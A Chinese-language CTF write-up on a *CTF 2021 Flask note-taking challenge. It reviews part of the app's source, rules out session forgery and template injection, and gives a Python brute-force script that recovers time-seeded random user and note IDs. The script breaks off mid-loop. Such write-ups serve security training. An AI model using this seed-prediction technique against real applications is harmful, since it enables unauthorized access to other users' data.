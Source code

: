 ```

    return render_template("my_notes.html", notes=notes)

@app.route('/view/<_id>')
def view(_id):

    note = Note.query.filter_by(note_id=_id).first()

    user_id = note.user_id
    username = User.query.filter_by(user_id=user_id).first().username
    data = {
        'post_at': note.post_at,
        'title': note.title,
        'text': note.text,
        'username': username
    }

    return render_template('note.html', data=data)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000) 
```

题目中使用 flask 框架。session 并没有给出 security key，所以并不是伪造 session。使用 render_template 而不是使用 render_template_string，所以也无法使用模版注入。

队里的师傅说是随机数问题，以前没做过这类的题目。最相似的题目就是 DDCTF 的礼品商店，先伪造 session，然后访问已知的 flag 页面。

这个题目并没有明确的表明 flag 的位置，让我有些迷惑。

以前没有做过类似的随机数爆破的题目，还挺害怕的，慢慢拆解过后也不过如此。

大致步骤：猜测 flag 的位置在 note 中，需要伪造 user_id，通过代码审计可知 user_id 和 note_id 都是采用时间来作为种子，只需要找到第一篇 note_id，就可以反向推导出种子，从而得到 user_id。

所以就可以写出如下的 Payload：（源于博客[*CTF 2021 Web部分 Writeup](https://blog.frankli.site/2021/01/18/*CTF-2021-Web/)）

```
 import random
import string
import datetime

ts = 1610677740

te = 1610677800

target = 'lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u'

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

for t in range(ts, te):
    for i in range(9999):

        timestamp = 0.0001 * i + t
        random.seed(timestamp)

        user = get_random_id()
        time = datetime.datetime.fromtimestamp(
            t, tz=datetime.timezone.utc
        ).strftime('%Y-%m-%d %H:%M UTC')
        random.seed(user + time)

        post = get_random_id()
```